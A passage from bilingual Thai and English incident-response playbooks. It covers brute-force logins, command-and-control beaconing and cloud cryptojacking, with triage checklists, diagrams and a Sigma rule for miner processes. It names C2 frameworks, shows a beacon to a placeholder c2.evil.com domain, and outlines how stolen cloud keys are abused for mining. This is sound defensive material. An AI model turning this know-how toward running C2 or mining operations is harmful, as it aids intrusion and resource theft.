| **Password Spray** | รหัสผ่านเดียวกดต่อหลายบัญชี | 🟠 สูง |
| **Credential Stuffing** | ใช้ credentials ที่รั่วไหล | 🔴 สูง |
| **Distributed** | หลาย IP → หลีกเลี่ยง lockout | 🔴 สูง |

### 1.2 รายการตรวจสอบ

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| จำนวน login ล้มเหลว | SIEM (Event 4625) | ☐ |
| Source IP / ประเทศ | SIEM / GeoIP | ☐ |
| บัญชีที่ถูกโจมตี (เดียว/หลาย) | SIEM | ☐ |
| มี login สำเร็จในช่วงเดียวกัน? | Event 4624 | ☐ |
| IP อยู่ใน TI feeds? | VirusTotal, AbuseIPDB | ☐ |
| Target protocol (SSH/RDP/O365/VPN) | SIEM | ☐ |

---

## 2. การควบคุม

### 2.1 ไม่มี Login สำเร็จ

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **บล็อก** source IP ที่ firewall/WAF | ☐ |
| 2 | **เพิ่ม** rate limiting | ☐ |
| 3 | **ติดตาม** บัญชีเป้าหมาย | ☐ |

### 2.2 มี Login สำเร็จ

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **รีเซ็ตรหัสผ่าน** ทันที | ☐ |
| 2 | **เพิกถอน sessions** ทั้งหมด | ☐ |
| 3 | **บล็อก** source IP | ☐ |
| 4 | **ตรวจ** กิจกรรมหลัง login สำเร็จ | ☐ |
| 5 | ยกระดับไป [PB-05 Account Compromise](Account_Compromise.th.md) | ☐ |

---

## 3. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | บังคับ MFA ทุกบัญชี | ☐ |
| 2 | ใช้ Smart Lockout / Account lockout policies | ☐ |
| 3 | พิจารณา Passwordless authentication | ☐ |
| 4 | เปิด credential leak monitoring | ☐ |

---

## 4. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| Login สำเร็จ — บัญชีถูกบุกรุก | [PB-05](Account_Compromise.th.md) |
| Admin account ถูกโจมตี | CISO |
| Distributed attack (>100 IPs) | SOC Lead |

---

### ผัง Password Policy Hardening

```mermaid
graph TD
    Policy["🔐 Password Policy"] --> Length["📏 Min 14 chars"]
    Policy --> Complex["🔤 Complexity required"]
    Policy --> History["📋 Remember 24"]
    Policy --> Lockout["🔒 Lockout 10 fails"]
    Lockout --> Duration["⏱️ 30 min lockout"]
    Length --> MFA["📱 MFA required"]
    Complex --> MFA
    style MFA fill:#27ae60,color:#fff
    style Lockout fill:#e74c3c,color:#fff
```

### ผังแหล่งที่มา Credential

```mermaid
graph LR
    Source{"🔑 แหล่งที่มา?"} --> Dark["🌑 Dark Web dump"]
    Source --> Phish["🎣 Phishing"]
    Source --> Reuse["♻️ Password reuse"]
    Source --> Keylog["⌨️ Keylogger"]
    Dark --> Check["✅ ตรวจ HaveIBeenPwned"]
    Phish --> Check
    Reuse --> Check
    Keylog --> EDR["🛡️ สแกน EDR"]
    style Dark fill:#2c3e50,color:#fff
    style Phish fill:#e74c3c,color:#fff
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| Multiple Failed Login Attempts | [win_multiple_failed_logins.yml](../../08_Detection_Engineering/sigma_rules/win_multiple_failed_logins.yml) |
| Login from Unusual Location | [cloud_unusual_login.yml](../../08_Detection_Engineering/sigma_rules/cloud_unusual_login.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [PB-05 บัญชีถูกบุกรุก](Account_Compromise.th.md)

## Account Lockout Impact Assessment

| System Type | Lockout Policy | Business Impact |
|:---|:---|:---|
| Active Directory | 5 attempts / 30 min | Medium-High |
| VPN Gateway | 3 attempts / 15 min | High |
| Web Application | 10 attempts / 60 min | Low-Medium |
| Database | 5 attempts / 30 min | High |
| Cloud Console | 3 attempts / 5 min | Critical |

### Brute Force Attack Patterns

| Pattern | Detection | Response |
|:---|:---|:---|
| Horizontal (password spray) | Multiple users, same password | Block source IP |
| Vertical (single target) | Many attempts, one user | Lock account |
| Credential stuffing | Known breach list | Rate limit + CAPTCHA |
| Reverse brute force | Common passwords, all users | Alert + block |

### Response Automation

```mermaid
flowchart TD
    A[Failed logins > threshold] --> B{Source type?}
    B -->|Internal| C[Alert + investigate]
    B -->|External| D{Known bad IP?}
    D -->|Yes| E[Auto-block + log]
    D -->|No| F[Rate limit + monitor]
    C --> G{Compromised?}
    G -->|Yes| H[Reset creds + scan]
    G -->|No| I[User awareness]
```

### Password Policy Recommendations

| Setting | Recommended | Rationale |
|:---|:---|:---|
| Min length | 14 chars | Resist offline crack |
| Lockout | 5 attempts | Limit online attempts |
| MFA | Required | Prevent credential-only |
| Password history | 12 | Prevent reuse |

### Account Recovery Steps

| Step | Action | Verify |
|:---|:---|:---|
| 1 | Reset password | Confirm with user |
| 2 | Enable MFA | New device enroll |
| 3 | Review login history | Check for success |

## อ้างอิง

- [MITRE ATT&CK T1110 — Brute Force](https://attack.mitre.org/techniques/T1110/)


---

## File: 05_Incident_Response/Playbooks/C2_Communication.en.md

# Playbook: Command & Control (C2) Traffic

**ID**: PB-13
**Severity**: High/Critical | **Category**: Network Security
**MITRE ATT&CK**: [T1071](https://attack.mitre.org/techniques/T1071/) (Application Layer Protocol), [T1573](https://attack.mitre.org/techniques/T1573/) (Encrypted Channel), [T1571](https://attack.mitre.org/techniques/T1571/) (Non-Standard Port)
**Trigger**: IDS/IPS alert, EDR beacon detection, DNS anomaly, Proxy alert (known C2 domain), SIEM correlation

### C2 Lifecycle

```mermaid
graph LR
    Implant["🦠 Implant"] --> Beacon["📡 Beacon"]
    Beacon --> C2["🖥️ C2 Server"]
    C2 --> Task["📋 Task"]
    Task --> Execute["⚡ Execute"]
    Execute --> Result["📤 Exfil Result"]
    Result --> C2
    style Implant fill:#e74c3c,color:#fff
    style C2 fill:#8e44ad,color:#fff
    style Execute fill:#c0392b,color:#fff
```

### Sinkhole Operation

```mermaid
sequenceDiagram
    participant Host as Infected Host
    participant DNS
    participant Sinkhole
    participant SOC
    Note over DNS: Redirect C2 domain → Sinkhole IP
    Host->>DNS: Resolve c2.evil.com
    DNS-->>Host: Sinkhole IP
    Host->>Sinkhole: Beacon attempt
    Sinkhole->>SOC: 📋 Log beacon
    SOC->>SOC: Identify all infected hosts
    SOC->>Host: Isolate + Remediate
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 C2 / Beaconing Alert"] --> Rep{"🔍 Domain/IP Reputation?"}
    Rep -->|Known C2 (TI Match)| Confirmed["🔴 Confirmed C2"]
    Rep -->|Suspicious / NRD| Analyze["⚠️ Deep Analysis"]
    Rep -->|Clean / CDN| Beacon{"📊 Beaconing Pattern?"}
    Analyze --> Process{"Which Process?"}
    Beacon -->|Regular Interval + Fixed Size| Suspicious["⚠️ Suspicious"]
    Beacon -->|Irregular / User-Driven| FP["✅ Likely Legitimate"]
    Suspicious --> Process
    Process -->|powershell / cmd / rundll32| Confirmed
    Process -->|Browser / Known App| Context["Check User Context"]
    Context -->|User Initiated| FP
    Context -->|No User Activity| Confirmed
    Confirmed --> Isolate["🔌 Isolate + Block"]
```

---

## 1. Analysis

### 1.1 Network Indicators

| Check | How | Done |
|:---|:---|:---:|
| Destination IP/domain reputation | VirusTotal, AbuseIPDB, ThreatFox | ☐ |
| Domain age | WHOIS — newly registered domain (< 30 days)? | ☐ |
| DNS query pattern | High frequency, unusual TLD, DGA-like characters? | ☐ |
| Beaconing interval | Regular callback interval (e.g., every 60s, 300s, 3600s) | ☐ |
| JA3/JA3S fingerprint | Match against known C2 framework signatures | ☐ |
| Data volume per connection | Fixed-size small payloads = heartbeat; large = exfil | ☐ |
| Protocol/port | Standard HTTP/HTTPS or unusual port? | ☐ |

### 1.2 Endpoint Indicators

| Check | How | Done |
|:---|:---|:---:|
| Initiating process | Which process is making connections? (EDR) | ☐ |
| Process parent chain | Legitimate parent chain or suspicious? | ☐ |
| Process injection | Is a legitimate process (svchost.exe) making anomalous connections? | ☐ |
| Persistence | Any new scheduled tasks, services, or registry Run keys? | ☐ |
| Loaded DLLs | Any unsigned or unusual DLLs loaded? | ☐ |

### 1.3 Known C2 Frameworks

| Framework | Common Indicators |
|:---|:---|
| **Cobalt Strike** | Default malleable profile, JA3 fingerprint, DNS beacons |
| **Metasploit** | Meterpreter HTTP/S callbacks, encoded payloads |
| **Sliver** | mTLS/WireGuard, DNS canaries |
| **Covenant** | .NET implants, Grunt callbacks |
| **Empire** | PowerShell agent, stager downloads |
| **Custom** | Unknown domain + beaconing + non-standard process |

---

## 2. Containment

### 2.1 Immediate Actions (within 5 minutes)

| # | Action | Tool | Done |
|:---:|:---|:---|:---:|
| 1 | **Block C2 IP/domain** at perimeter firewall | Firewall | ☐ |
| 2 | **DNS sinkhole** the C2 domain | DNS server | ☐ |
| 3 | **Network isolate** the infected host | EDR | ☐ |
| 4 | **Block hash** of malicious process/binary | EDR global blacklist | ☐ |
| 5 | **Disable user account** on affected host | AD / IdP | ☐ |

### 2.2 Extended Containment

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Search for same C2 indicators on ALL hosts (threat hunt) | ☐ |
| 2 | Check if other hosts beaconed to same destination | ☐ |
| 3 | Block all domains registered by same registrant (WHOIS pivot) | ☐ |
| 4 | Check lateral movement from infected host | ☐ |

---

## 3. Eradication

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Kill malicious process(es) | ☐ |
| 2 | Remove implant/payload from disk | ☐ |
| 3 | Remove persistence mechanisms | ☐ |
| 4 | If process injection was used, **re-image the host** (cleaning may be unreliable) | ☐ |
| 5 | Memory dump capture before cleanup (for forensic analysis) | ☐ |
| 6 | Full EDR/AV scan of affected host | ☐ |

---

## 4. Recovery

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Reconnect host after verified clean state | ☐ |
| 2 | Submit C2 IoCs to TI platform (update all defenses) | ☐ |
| 3 | Create/update SIEM detection rule for this C2 pattern | ☐ |
| 4 | Add JA3/JA3S fingerprint to monitoring if novel | ☐ |
| 5 | Monitor reconnected host for 72 hours | ☐ |

---

## 5. IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| C2 Domain | | DNS logs / NDR |
| C2 IP | | Firewall / Proxy |
| JA3 Fingerprint | | NDR / TLS inspection |
| Beacon Interval | | Network analysis |
| Malicious Process | | EDR |
| Process Hash (SHA256) | | EDR |
| Dropped Files | | EDR / Forensics |
| Persistence Location | | EDR |

---

## 6. Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| Confirmed C2 with active beaconing | Tier 2 + Threat Hunt |
| Multiple hosts beaconing | Major Incident |
| Known APT framework detected | CISO + External IR |
| Data exfiltration over C2 | [PB-08](Data_Exfiltration.en.md) + Legal |
| Domain controller / critical server infected | CISO immediately |
| C2 via DNS tunneling | Network team + Tier 2 |

---

## 7. Post-Incident

- [ ] Block all identified C2 domains/IPs at firewall and DNS
- [ ] Submit C2 indicators to threat intelligence sharing platforms
- [ ] Review TLS inspection coverage for encrypted C2 channels
- [ ] Deploy JA3/JA3S fingerprint detection for known C2 frameworks
- [ ] Implement DNS sinkholing for identified C2 domains
- [ ] Review and update proxy category blocklists
- [ ] Conduct threat hunt for similar beaconing patterns
- [ ] Document findings in [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

---

### C2 Framework Classification

```mermaid
graph TD
    C2["📡 C2 Framework"] --> Type{"📋 Protocol?"}
    Type -->|HTTP/S| Web["🌐 Cobalt Strike, Sliver"]
    Type -->|DNS| DNS["🔤 DNScat2, Iodine"]
    Type -->|DoH| DoH["🔒 Godoh"]
    Type -->|Cloud| Cloud["☁️ Azure C2, GC2"]
    Web --> Detect["🔍 Proxy/TLS inspection"]
    DNS --> Detect2["🔍 DNS analytics"]
    style C2 fill:#e74c3c,color:#fff
```

### Beacon Detection Pattern

```mermaid
sequenceDiagram
    participant Malware
    participant Proxy
    participant SIEM
    participant SOC
    loop Every 60s ± jitter
        Malware->>Proxy: HTTPS callback
    end
    Proxy->>SIEM: Log pattern
    SIEM->>SIEM: Detect periodic beaconing
    SIEM->>SOC: 🚨 C2 beacon detected
    SOC->>SOC: Block domain + isolate host
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| Network Beaconing Pattern | [net_beaconing.yml](../../08_Detection_Engineering/sigma_rules/net_beaconing.yml) |
| DNS Tunneling Detection | [net_dns_tunneling.yml](../../08_Detection_Engineering/sigma_rules/net_dns_tunneling.yml) |
| PowerShell Encoded Command | [proc_powershell_encoded.yml](../../08_Detection_Engineering/sigma_rules/proc_powershell_encoded.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [PB-03 Malware Infection](Malware_Infection.en.md)
- [PB-12 Lateral Movement](Lateral_Movement.en.md)
- [PB-08 Data Exfiltration](Data_Exfiltration.en.md)

## References

- [MITRE ATT&CK T1071 — Application Layer Protocol](https://attack.mitre.org/techniques/T1071/)
- [SANS Hunt Evil: Beaconing](https://www.sans.org/white-papers/39600/)
- [JA3 Fingerprinting](https://github.com/salesforce/ja3)


---

## File: 05_Incident_Response/Playbooks/C2_Communication.th.md

# Playbook: การสื่อสาร C2 (Command and Control)

**ID**: PB-13
**ระดับความรุนแรง**: สูง/วิกฤต | **หมวดหมู่**: เครือข่าย / การโจมตี
**MITRE ATT&CK**: [T1071](https://attack.mitre.org/techniques/T1071/) (Application Layer Protocol), [T1573](https://attack.mitre.org/techniques/T1573/) (Encrypted Channel)
**ทริกเกอร์**: IDS/IPS alert, EDR beacon detection, DNS anomaly, proxy alert (known C2 domain)


## หลังเหตุการณ์ (Post-Incident)

- [ ] บล็อก C2 domains/IPs ที่ firewall และ DNS
- [ ] ส่ง C2 indicators ไปยัง threat intel sharing platforms
- [ ] ตรวจ TLS inspection coverage สำหรับ encrypted C2
- [ ] ใช้ JA3/JA3S fingerprint detection
- [ ] ใช้ DNS sinkholing สำหรับ C2 domains
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

### ผังวงจรชีวิต C2

```mermaid
graph LR
    Implant["🦠 Implant"] --> Beacon["📡 Beacon"]
    Beacon --> C2["🖥️ C2 Server"]
    C2 --> Task["📋 Task"]
    Task --> Execute["⚡ Execute"]
    Execute --> Result["📤 Exfil Result"]
    Result --> C2
    style Implant fill:#e74c3c,color:#fff
    style C2 fill:#8e44ad,color:#fff
    style Execute fill:#c0392b,color:#fff
```

### ผังขั้นตอน Sinkhole

```mermaid
sequenceDiagram
    participant Host as Infected Host
    participant DNS
    participant Sinkhole
    participant SOC
    Note over DNS: เปลี่ยน C2 domain --> Sinkhole IP
    Host->>DNS: Resolve c2.evil.com
    DNS-->>Host: Sinkhole IP
    Host->>Sinkhole: Beacon attempt
    Sinkhole->>SOC: 📋 Log beacon
    SOC->>SOC: ระบุ infected hosts ทั้งหมด
    SOC->>Host: Isolate + Remediate
```

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 C2 Alert"] --> Type{"📡 ประเภท C2?"}
    Type -->|DNS| DNS["📡 DNS Beacon"]
    Type -->|HTTP/S| HTTP["🌐 HTTPS Beacon"]
    Type -->|DoH/DoT| DoH["🔒 Encrypted DNS"]
    Type -->|Custom Protocol| Custom["⚙️ Non-standard Port"]
    DNS --> Sinkhole["🕳️ DNS Sinkhole"]
    HTTP --> Block["🔒 Block Domain/IP"]
    DoH --> Block
    Custom --> Block
    Sinkhole --> Isolate["🖥️ Isolate Host"]
    Block --> Isolate
    Isolate --> Hunt["🔍 Threat Hunt"]
```

---

## 1. การวิเคราะห์

### 1.1 ประเภทช่องทาง C2

| ช่องทาง | เครื่องมือ | ตัวบ่งชี้ | การตรวจจับ |
|:---|:---|:---|:---|
| **HTTP/S Beacon** | Cobalt Strike, Metasploit | Periodic callbacks, jitter | Proxy / SSL inspection |
| **DNS Beacon** | DNS over payload | High entropy subdomains | DNS logs, RPZ |
| **DoH/DoT** | Built-in OS | Bypass DNS monitoring | Block external DoH |
| **Social Media** | Twitter/Telegram API | API calls | Proxy / CASB |
| **Cloud Services** | Azure, AWS, GCP APIs | Legitimate domain | Network analytics |
| **Custom TCP/UDP** | Custom malware | Non-standard ports | Netflow / IDS |

### 1.2 รายการตรวจสอบ

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| Host ที่ติดต่อ C2 คือเครื่องใด? | EDR / SIEM | ☐ |
| Domain/IP ของ C2 server | Proxy, DNS, Netflow | ☐ |
| ช่วงเวลา beacon (interval + jitter) | Proxy / EDR | ☐ |
| Process ที่ทำ C2 connection | EDR (Sysmon Event 3) | ☐ |
| hash ของ malware / implant | EDR | ☐ |
| ตรวจ C2 ใน TI feeds (VirusTotal, AbuseIPDB) | TI platform | ☐ |
| มี host อื่นติดต่อ C2 เดียวกันหรือไม่? | SIEM pivot search | ☐ |
| มี lateral movement จาก host นี้? | EDR + AD logs | ☐ |

---

## 2. การควบคุม

### 2.1 การดำเนินการทันที

| # | การดำเนินการ | เครื่องมือ | เสร็จ |
|:---:|:---|:---|:---:|
| 1 | **Block** C2 domain/IP ที่ proxy, firewall, DNS | All | ☐ |
| 2 | **Isolate** host ที่ติดเชื้อจากเครือข่าย | EDR / Network | ☐ |
| 3 | **Kill** process ที่ทำ C2 connection | EDR | ☐ |
| 4 | **ค้นหา** host อื่นที่ติดต่อ C2 เดียวกัน | SIEM | ☐ |
| 5 | **Block** malicious hash ใน EDR | EDR policy | ☐ |

### 2.2 ป้องกัน Lateral Movement

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | รีเซ็ตรหัสผ่านบัญชีบน host ที่ติดเชื้อ | ☐ |
| 2 | ตรวจ AD/Kerberos anomalies | ☐ |
| 3 | เพิ่ม monitoring บน segment ที่เกี่ยวข้อง | ☐ |

---

## 3. การกำจัด

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | ลบ malware/implant ออกจาก host ทั้งหมด | ☐ |
| 2 | ลบ persistence (scheduled task, registry, service) | ☐ |
| 3 | รีเซ็ต credentials ที่อาจถูกขโมย | ☐ |
| 4 | สำรอง forensic evidence | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | Rebuild/restore host จาก known-good image | ☐ |
| 2 | เพิ่ม detection rules สำหรับ C2 pattern | ☐ |
| 3 | Block DoH/DoT ไปยัง external resolvers | ☐ |
| 4 | เปิด SSL/TLS inspection | ☐ |
| 5 | ติดตาม 30 วัน | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| Cobalt Strike / APT tool ตรวจพบ | Tier 2 + Threat Hunt |
| หลาย host ติดต่อ C2 เดียวกัน | Major Incident |
| Lateral movement ตรวจพบ | [PB-09 Lateral Movement](Lateral_Movement.th.md) |
| Data exfiltration ผ่าน C2 | [PB-08 Data Exfiltration](Data_Exfiltration.th.md) |
| Nation-state indicators | CISO + Law Enforcement |

---

### ผัง C2 Framework Classification

```mermaid
graph TD
    C2["📡 C2 Framework"] --> Type{"📋 Protocol?"}
    Type -->|HTTP/S| Web["🌐 Cobalt Strike, Sliver"]
    Type -->|DNS| DNS["🔤 DNScat2, Iodine"]
    Type -->|DoH| DoH["🔒 Godoh"]
    Type -->|Cloud| Cloud["☁️ Azure C2, GC2"]
    Web --> Detect["🔍 Proxy/TLS inspection"]
    DNS --> Detect2["🔍 DNS analytics"]
    style C2 fill:#e74c3c,color:#fff
```

### ผัง Beacon Detection Pattern

```mermaid
sequenceDiagram
    participant Malware
    participant Proxy
    participant SIEM
    participant SOC
    loop Every 60s ± jitter
        Malware->>Proxy: HTTPS callback
    end
    Proxy->>SIEM: Log pattern
    SIEM->>SIEM: Detect periodic beaconing
    SIEM->>SOC: 🚨 C2 beacon detected
    SOC->>SOC: Block domain + isolate host
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| Network Beaconing Pattern | [net_beaconing.yml](../../08_Detection_Engineering/sigma_rules/net_beaconing.yml) |
| DNS Tunneling Detection | [net_dns_tunneling.yml](../../08_Detection_Engineering/sigma_rules/net_dns_tunneling.yml) |
| PowerShell Encoded Command | [proc_powershell_encoded.yml](../../08_Detection_Engineering/sigma_rules/proc_powershell_encoded.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [แม่แบบรายงานเหตุการณ์](../../11_Reporting_Templates/incident_report.th.md)
- [PB-03 มัลแวร์](Malware_Infection.th.md)
- [PB-25 DNS Tunneling](DNS_Tunneling.th.md)

## C2 Protocol Detection

| Protocol | Detection | Difficulty |
|:---|:---|:---|
| HTTP/S beaconing | JA3/JA3S fingerprint | Medium |
| DNS tunneling | Entropy + volume | Medium |
| ICMP tunneling | Payload analysis | High |
| Cloud service abuse | Domain reputation | Hard |
| Custom protocol | ML behavioral | Very Hard |

### Beaconing Analysis Template

| Feature | Value | Normal? | Score |
|:---|:---|:---|:---|
| Interval | 60s ± 5s | ❌ Too regular | +3 |
| Jitter | 8% | ❌ Low variance | +2 |
| Packet size | 256 bytes | ⚠️ Fixed | +1 |
| Session duration | 24/7 | ❌ Non-human | +3 |

### C2 Containment Steps
- [ ] Block C2 domain/IP at firewall
- [ ] Sinkhole DNS for C2 domain
- [ ] Isolate infected endpoints
- [ ] Capture memory for analysis
- [ ] Identify all beaconing hosts

### C2 IOC Sharing

| Type | Share With | Format |
|:---|:---|:---|
| Domain/IP | TI community | STIX |
| JA3 hash | Industry ISAC | CSV |
| Behavioral pattern | Internal SOC | Report |

## อ้างอิง

- [MITRE ATT&CK — Command and Control](https://attack.mitre.org/tactics/TA0011/)


---

## File: 05_Incident_Response/Playbooks/Cloud_Cryptojacking.en.md

# Playbook: Cloud Cryptojacking Response

**ID**: PB-47
**Severity**: High | **Category**: Impact / Resource Hijacking
**MITRE ATT&CK**: [T1496](https://attack.mitre.org/techniques/T1496/) (Resource Hijacking)
**Trigger**: Cloud cost spike alert, unusual compute usage, EDR (crypto miner process), new large instances launched, API key abuse detected

> ⚠️ **WARNING**: Cloud cryptojacking can rack up hundreds of thousands in compute costs within hours. Attackers use stolen API keys or exposed credentials to spin up GPU instances for crypto mining.

### Cryptojacking Attack Chain

```mermaid
graph LR
    A["1️⃣ Credential Theft\nExposed API key/token"] --> B["2️⃣ Cloud Access\nAWS/GCP/Azure"]
    B --> C["3️⃣ Spin Up Instances\nGPU/large compute"]
    C --> D["4️⃣ Deploy Miner\nXMRig/T-Rex/PhoenixMiner"]
    D --> E["5️⃣ Mine Crypto\nMonero/ETH"]
    E --> F["6️⃣ Profit\nVictim pays the bill 💸"]
    style A fill:#ffcc00,color:#000
    style C fill:#ff6600,color:#fff
    style D fill:#ff4444,color:#fff
    style F fill:#660000,color:#fff
```

### Cloud Attack Surface

```mermaid
graph TD
    Surface["☁️ Attack Surface"] --> Keys["Exposed API Keys\nGitHub repos, .env files"]
    Surface --> IAM["Weak IAM\nOver-permissive roles"]
    Surface --> SSRF["SSRF Attacks\nMetadata service"]
    Surface --> Supply["Supply Chain\nCompromised CI/CD"]
    
    Keys --> Mine["Crypto Mining\n24/7 GPU instances"]
    IAM --> Mine
    SSRF --> Mine
    Supply --> Mine
    
    Mine --> Cost["💸 $50K-$500K\nper day in costs"]
    
    style Surface fill:#ff6600,color:#fff
    style Cost fill:#660000,color:#fff
    style Mine fill:#cc0000,color:#fff
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Cloud Cost Anomaly / Miner Detected"] --> Source{"Alert source?"}
    Source -->|"Cost alert"| Cost["Monthly cost spike\n> 200% increase"]
    Source -->|"New instances"| Instances["Unfamiliar instances\nGPU types, unusual regions"]
    Source -->|"EDR/Process"| Process["XMRig, crypto miner\nprocess detected"]
    Source -->|"GuardDuty/Defender"| Guard["Cloud security alert\nCrypto mining behavior"]
    Cost --> Investigate["Check: who launched instances?"]
    Instances --> Investigate
    Process --> Isolate["🔴 Terminate instance immediately"]
    Guard --> Isolate
    Investigate --> Auth{"Authorized workload?"}
    Auth -->|"No — Unknown"| Contain["🔴 CONTAIN\nTerminate + revoke keys"]
    Auth -->|"Yes — Expected"| Close["Close alert"]
    style Alert fill:#ff6600,color:#fff
    style Contain fill:#cc0000,color:#fff
    style Isolate fill:#cc0000,color:#fff
```

### Investigation Workflow

```mermaid
sequenceDiagram
    participant Cloud as Cloud Alert
    participant SOC as SOC Analyst
    participant CloudAdmin as Cloud Admin
    participant SecEng as Security Eng
    participant Finance

    Cloud->>SOC: 🚨 Cost spike / unusual instances
    SOC->>CloudAdmin: Pull CloudTrail/Activity logs
    CloudAdmin->>SOC: API key X launched 50 GPU instances
    SOC->>SOC: API key found in public GitHub repo!
    SOC->>CloudAdmin: Revoke API key immediately
    SOC->>CloudAdmin: Terminate all unauthorized instances
    CloudAdmin->>Finance: Estimated unauthorized charges: $48,000
    SOC->>SecEng: Rotate all API keys, audit IAM
    Finance->>Cloud: File abuse claim with cloud provider
```

### Cost Impact Assessment

```mermaid
graph TD
    Impact["Cost Assessment"] --> Hours{"Duration running?"}
    Hours -->|"< 1 hour"| Low["🟡 $100 - $1,000"]
    Hours -->|"1-24 hours"| Med["🟠 $1,000 - $50,000"]
    Hours -->|"1-7 days"| High["🔴 $50,000 - $500,000"]
    Hours -->|"> 7 days"| Cat["💀 $500,000+"]
    Low --> Action1["Terminate + rotate keys"]
    Med --> Action2["Terminate + file cloud claim"]
    High --> Action3["Emergency escalation + legal"]
    Cat --> Action4["CEO/CFO notification + insurance"]
    style Cat fill:#660000,color:#fff
    style High fill:#cc0000,color:#fff
```

### Common Miner Indicators

```mermaid
graph TD
    subgraph "Process Indicators"
        P1["xmrig / xmrig-notls"]
        P2["t-rex / trex"]
        P3["phoenixminer"]
        P4["ethminer"]
        P5["cryptonight"]
    end
    subgraph "Network Indicators"
        N1["Stratum protocol\nport 3333, 4444, 5555"]
        N2["Mining pool domains\npool.minexmr.com"]
        N3["High outbound bandwidth\nconsistent pattern"]
    end
    subgraph "Cloud Indicators"
        C1["GPU instances in\nunusual regions"]
        C2["p3/p4/g4 instance types\n(AWS GPU)"]
        C3["Spot instances\n(cost optimization)"]
    end
    style P1 fill:#cc0000,color:#fff
    style N1 fill:#ff6600,color:#fff
    style C1 fill:#ff6600,color:#fff
```

### Response Timeline

```mermaid
gantt
    title Cloud Cryptojacking Response
    dateFormat HH:mm
    axisFormat %H:%M
    section Detection
        Cost/cloud alert       :a1, 00:00, 5min
        Verify unauthorized    :a2, after a1, 10min
    section Containment
        Terminate instances    :a3, after a2, 5min
        Revoke API keys        :a4, after a3, 10min
    section Investigation
        Audit CloudTrail       :a5, after a4, 60min
        Find credential source :a6, after a5, 60min
    section Recovery
        Rotate all credentials :a7, after a6, 120min
        File cloud abuse claim :a8, after a7, 30min
```

---

## 1. Immediate Actions (First 10 Minutes)

| # | Action | Owner |
|:---|:---|:---|
| 1 | Terminate ALL unauthorized compute instances | Cloud Admin |
| 2 | Revoke compromised API keys/access tokens | Cloud Admin |
| 3 | Set billing alert and spending limit immediately | Finance |
| 4 | Check for additional backdoor access (IAM users, roles) | SecEng |
| 5 | Audit CloudTrail/Activity Log for all actions by compromised key | SOC |
| 6 | Notify finance of estimated unauthorized charges | SOC Manager |

## 2. Investigation Checklist

### Cloud Platform Audit
- [ ] CloudTrail/Activity logs: who created the instances?
- [ ] Which API key/service account was used?
- [ ] Where was the credential exposed? (GitHub, .env, CI/CD)
- [ ] What instance types and regions were used?
- [ ] Were any additional IAM users/roles created?
- [ ] Are there persistent resources (Lambda, ECS tasks)?

### Cost Analysis
- [ ] Exact unauthorized compute charges
- [ ] Duration instances were running
- [ ] Estimated total financial impact
- [ ] Can cloud provider reverse charges?

## 3. Containment

| Scope | Action |
|:---|:---|
| **Instances** | Terminate all unauthorized compute |
| **API keys** | Revoke immediately, rotate all |
| **IAM** | Remove unauthorized users/roles |
| **Budget** | Set hard spending limit |
| **Secrets** | Scan repos for exposed credentials |

## 4. Post-Incident

| Question | Answer |
|:---|:---|
| How were cloud credentials exposed? | [GitHub/env/CI/CD] |
| Were budget alerts configured? | [Yes/No] |
| Was IAM least-privilege enforced? | [Status] |
| Total financial impact? | [$Amount] |
| Were spending limits in place? | [Yes/No] |

## 6. Detection Rules (Sigma)

```yaml
title: Crypto Mining Process Detected
logsource:
    product: linux
    category: process_creation
detection:
    selection:
        Image|contains:
            - 'xmrig'
            - 'minerd'
            - 'cryptonight'
            - 't-rex'
            - 'phoenixminer'
    condition: selection
    level: critical
```

## Related Documents
- [IR Framework](../Framework.en.md)
- [Sigma Rules Index](../../08_Detection_Engineering/README.md)
- [Cloud Security Playbook](Cryptomining.en.md)
- [API Key Compromise Playbook](Cloud_IAM.en.md)
- [Account Compromise Playbook](Account_Compromise.en.md)

## References
- [MITRE T1496 — Resource Hijacking](https://attack.mitre.org/techniques/T1496/)
- [AWS — Detecting Cryptomining](https://docs.aws.amazon.com/guardduty/latest/ug/)


---

## File: 05_Incident_Response/Playbooks/Cloud_Cryptojacking.th.md

# Playbook: การตอบสนอง Cloud Cryptojacking

**ID**: PB-47
**ความรุนแรง**: สูง | **ประเภท**: Impact / Resource Hijacking
**MITRE ATT&CK**: [T1496](https://attack.mitre.org/techniques/T1496/) (Resource Hijacking)
**Trigger**: Cloud cost spike alert, การใช้ compute ผิดปกติ, EDR (crypto miner process), instances ขนาดใหญ่ที่เปิดใหม่, ตรวจพบ API key abuse

